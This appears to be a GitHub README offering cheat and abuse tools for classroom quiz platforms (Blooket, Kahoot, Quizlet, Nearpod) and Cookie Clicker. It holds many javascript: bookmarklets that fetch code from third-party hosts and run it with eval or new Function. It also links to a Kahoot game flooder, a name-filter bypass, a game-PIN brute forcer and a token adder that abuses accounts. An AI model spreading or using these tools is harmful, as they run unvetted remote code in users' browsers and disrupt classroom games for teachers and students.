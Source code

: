 # Blooket Hacks and more!
These are hacks for blooket. There are hacks such as give tokens for buying blooks (sadly only 500 per day), and cheats in-game like infinite gold in tower of doom or gold rush! I took cheats from another github repo, revised the code a bit. (There are other hacks if you scroll down)

**Scroll down for video tutorial on how to make bookmarklets**

## Mod Menu:
Mod Menu for blooket (Drag the link below to your bookmarks bar):
```
javascript:fetch('https://ieatppplyum.github.io/blooket-hack/index.js').then(r=>r.text()).then(t=>(new Function(t))())
```

To make the mod menu appear click on "Add Injectable", And paste the URLS in that are listed below.

Injectable URL 1: `https://helloieat.github.io/injectables/myrayuo.js` 

Injectable URL 2: `https://helloieat.github.io/injectables/is%20lit.js` 

## Bookmarklets:
```
Blooket hacks can be found here https://github.com/helloieat/blooket-hack-1
```

Bookmarklet tutorial:
https://streamable.com/t4u7i7

1. Make a bookmark (the star on the right side of the url bar if you are using chrome)
2. Click on more at the bottom left corner
3. Delete everything in the url box
4. Type `javascript:`
5. Paste in the code

## Blooket BruteForcer:
BLOOKET FIXED THE JOIN API SO IT ONLY GUESSES GAME PINS. (its super accurate though, only when a lot of games are being hosted).
```
It can be found here https://replit.com/@mikeylmao/Blooket-pass-finder
```

## 24hr Token Adder:
This will automatically gives your account 500 tokens and 300 exp daily
```
It can be found here https://replit.com/@mikeylmao/24hr-token-adder
```

# Other Hacks (Extra)
Mostly websites..

# Kahoot Hacks:
```
[Kaheet] https://pxtrez.com/
[Flooder] https://kaspammer.glitch.me/
[Flooder V2] https://replit.com/@mikeylmao/Kahoot-flood-2
[Kahoot Client] https://a8998w89329w09e09we.herokuapp.com/
[Kahoot Client V2] https://kahot.glitch.me/
```

## Bookmarklets (Click on these before you enter a games ID)

Kahoot Smasher/Flooder (Drag the link below to your bookmarks bar):
```
javascript:fetch('https://thatfrueddued.github.io/kahoot-smasher/Kahoot.js').then(function(response){response.text().then(function(text){eval(text);});});
```

Bad Name Filter Bypass (Drag the link below to your bookmarks bar):
```
javascript:fetch('https://thatfrueddued.github.io/kahoot-smasher/BadNameFilterBypass.js').then(function(response){response.text().then(function(text){eval(text);});});
```

Kahoot Correct Answers (Drag the link below to your bookmarks bar):
```
javascript:fetch("https://raw.githubusercontent.com/pxtrez/kaheet/main/dist/bundle.js" ).then((r) => r.text().then((t) => eval(t)));
```

# Quizlet Hacks:
Works for micromatch and other gamemodes (Drag the link below to your bookmarks bar):
```
javascript:(function()%7B(function() %7Blet x %3D document.createElement("script")%3Bx.src %3D "https%3A%2F%2Fcdn.jsdelivr.net%2Fgh%2FSnowLord7%2Fquizlet%40master%2Findex.js"%3Bx.onload %3D function () %7B x.remove()%3B %7D%3Bdocument.body.appendChild(x)%3B%7D)()%7D)()
```

# Cookie Clicker Hacks:
Shows a mod menu on your screen

Mod Menu V1 (Drag the link below to your bookmarks bar):
```
javascript:(function(){Game.LoadMod('https://rawgit.com/Giovani-Freitag/cookie-clicker-farm/master/cookieClickerFarm.js');})();
```

Mod Menu V2 (Drag the link below to your bookmarks bar):
```
javascript:Game.OpenSesame()
```
Website to play Cookie Clicker if it's blocked: https://ozh.github.io/cookieclicker/

# Nearpod Hacks:
Just finds codes

Nearpod code finder
```
https://replit.com/@milestashaun/nearpod-code-finder
```

# Walmart Version Of Google Classroom:
Sign up and add people to it

Code: rmxIWa
```
https://our-gclassroom.netlify.app/
```

#### Happy hacking :)

